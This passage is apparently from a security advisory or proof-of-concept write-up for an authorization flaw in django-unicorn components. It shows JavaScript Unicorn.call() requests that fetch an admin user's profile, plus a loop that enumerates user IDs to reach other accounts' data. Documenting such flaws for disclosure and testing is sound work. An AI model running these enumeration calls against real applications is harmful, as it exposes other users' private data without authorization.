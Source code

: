 2. Craft a JavaScript call to access a model instance the current user shouldn't have access to:

```javascript
// Assuming the current user is a regular user, attempt to access an admin user's data
const adminUserId = 1;  // Usually admin users have low IDs
Unicorn.call('user-profile-component', 'show_profile', adminUserId);
```

3. Verify that the method executes and exposes data from the admin user that the current user shouldn't have access to.

4. Try to access sensitive models by enumerating different model type hints:

```javascript
// Try different user IDs to access other user accounts
for (let i = 1; i <= 10; i++) {
    Unicorn.call('user-profile-component', 'show_profile', i);
}
```

5. Examine the component's state or response to confirm unauthorized access to the model data.
